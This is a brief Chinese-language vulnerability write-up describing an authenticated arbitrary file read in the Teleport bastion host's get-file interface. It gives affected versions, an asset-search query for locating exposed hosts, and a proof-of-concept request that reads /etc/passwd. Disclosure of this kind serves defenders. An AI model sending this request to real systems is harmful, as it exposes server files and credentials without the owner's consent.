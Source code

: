 # Teleport堡垒机 get-file 后台任意文件读取漏洞

# Teleport堡垒机 get-file 后台任意文件读取漏洞

## 漏洞描述

Teleport堡垒机 get-file接口存在后台任意文件读取漏洞，攻击者利用任意用户登录漏洞后可以获取后台权限，再进一步利用任意文件读取获取服务器上的敏感文件

## 漏洞影响

```
Teleport Version <= 20220817
```

## 网络测绘

```
app="TELEPORT堡垒机"
```

## 漏洞复现

登录页面

![image-20220824134958109](/images/202208241355622.png)

登录后使用POC验证

```
/audit/get-file?f=/etc/passwd&rid=1&type=rdp&act=read&offset=0
```

![image-20220824135554806](/images/202208241355866.png)

